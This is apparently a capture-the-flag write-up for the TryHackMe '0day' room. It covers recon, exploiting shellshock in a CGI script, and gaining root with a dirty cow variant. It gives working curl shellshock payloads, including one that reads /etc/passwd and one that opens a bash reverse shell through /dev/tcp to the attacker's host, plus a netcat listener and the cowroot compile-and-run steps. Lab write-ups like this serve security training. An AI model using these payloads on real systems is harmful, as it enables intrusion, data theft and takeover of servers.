


# 0day

[0day](https://www.tryhackme.com/room/0day) is a TryHackMe room created by
[MuirlandOracle](https://www.tryhackme.com/p/MuirlandOracle) and
[0day](https://www.tryhackme.com/p/0day) focused on exploiting the shellshock vulnerability.

## Recon

Grab the target IP address from TryHackMe. I like to save it as an environment
variable to save myself from retyping it:

```
export IP=<MACHINE_IP>
```

To start our recon, let's run nmap:

```
$  nmap -sV -sC -T4 $IP -oN nmap_scan.txt        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-14 13:47 EDT
Nmap scan report for 10.10.141.218
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol
2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.31 seconds
```

We see that port 22 (ssh) and 80 (http) are open. The OpenSSH version is
outdated, but I did not end up attempting to exploit it.

Moving on, I entered the IP address in my web browser to check out the web
server. We see this site is a developer's portfolio page:


I always go for the low-hanging fruit first, so I checked robots.txt and was greeted with the below message:


Looks like this developer has a sense of humor! My next course of action was
running gobuster to search for hidden directories or files.

```
$ gobuster dir -u http://$IP:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
...
/cgi-bin              (Status: 301) [Size: 315] [--> http://10.10.141.218/cgi-bin/]
/img                  (Status: 301) [Size: 311] [--> http://10.10.141.218/img/]    
/uploads              (Status: 301) [Size: 315] [--> http://10.10.141.218/uploads/]
/admin                (Status: 301) [Size: 313] [--> http://10.10.141.218/admin/]  
/css                  (Status: 301) [Size: 311] [--> http://10.10.141.218/css/]    
/js                   (Status: 301) [Size: 310] [--> http://10.10.141.218/js/]     
/backup               (Status: 301) [Size: 314] [--> http://10.10.141.218/backup/] 
/secret               (Status: 301) [Size: 314] [--> http://10.10.141.218/secret/
```

### Whole lot of Rabbit Holes
Lots of interesting folders! However, the majority of them are clever
rabbit-holes. For example, the /backup folder contains the following private RSA
key:


I thought this was a solid lead and spent a lot of time on trying to login to
ssh with this. The private key is passphrased protected so I used
/usr/share/john/ssh2john.py to crack it. I attempted with the usernames ryan,
admin, and root, but no luck. 


## Vulnerability Discovery

After stumbling through more rabbit holes, I ran nikto to see for any
known web vulnerabilities.

```
$ nikto -host http://$IP
...
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock'
vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
...
```

The scan tells us that there is a file named /cgi-bin/test.cgi and that is may be vulnerable to
the 'shellshock' vulnerability.

Here's the contents of /cgi-bin/test.cgi:



## The Shellshock Vulnerability

I was not familiar with the shellshock vulnerability, so I looked it up.
There is [a great slide deck from
OWASP](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)
explaining shellshock. It contains a lot of great information and demonstrates
how to exploit the shellshock vulnerability.

To summarize the slide deck, shellshock allows us to utilize bash environment
variables to achieve Remote Code Execution (RCE). There are three requirements
the victim needs to have:
1. An Apache web server
2. mod_cgi enabled
3. A "hello world" cgi script

The target has all three of these! Meaning we can execute whatever commands we
want on the web server!

## Remote Code Execution

To test out the RCE, I used curl to grab the /etc/passwd file:

```
$ curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/cat /etc/passwd;"
http://$IP/cgi-bin/test.cgi
```

It worked! Now, let's utilize this vulnerability to get a reverse shell. In one
tmux pane I started my netcat listener:

```
$ nc -nlvp 4444
```

And in another, I executed the reverse shell payload:

```
$ curl -A "() { :;}; echo Content-Type: text/html; /bin/bash -i >&/dev/tcp/$YOUR_IP/4444 0>&1" http://$IP/cgi-bin/test.cgi
```

You should now have a reverse shell like the following:
```
www-data@ubuntu:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/usr/lib/cgi-bin$
```

## Finding user.txt

After [stabilizing my reverse
shell](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/), I found the user.txt flag in /home/ryan

```
www-data@ubuntu:/home/ryan$ cat user.txt
XXX-REDACTED-XXX
```

Now time for the root flag!

## Privilege Escalation

I used the `find` command to look for programs with the setuid bit enabled.

```
$ find / -perm -u=s -type f 2>/dev/null
...
...
/usr/bin/mtr
...
```

The mtr command seems promising. Despite having an entry in
[GTFObins](https://gtfobins.github.io/gtfobins/mtr/), I could not get it to work
to read the root flag. If anyone is able to, please let me know!

My next action was uploading and running linpeas. The script shows that the
kernel version this system is running is vulnerable for privilege escalation:



After some online web searching, I found a dirty cow varient called
[cowroot](https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679) that
will give us root privileges.

I uploaded the script and compiled it as described in its documentation:

```
$ gcc cowroot.c -o cowroot -pthread
```

However, I got the following error:

```
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

According to [MuirlandOracle's excellent writeup on this
room](https://muirlandoracle.co.uk/2020/09/03/0day-writeup/#Privilege_Escalation),
this error is due to an issue in the PATH variable of this old Ubuntu system.
They provide the following command to fix it:

```
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

With the gcc compiler fixed, we can now successfully compile and run the
exploit:

```
$ gcc cowroot.c -o cowroot -pthread && ./cowroot

id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
cat /root/root.txt
XXX-REDACTED-XXX
```

Thanks for reading!
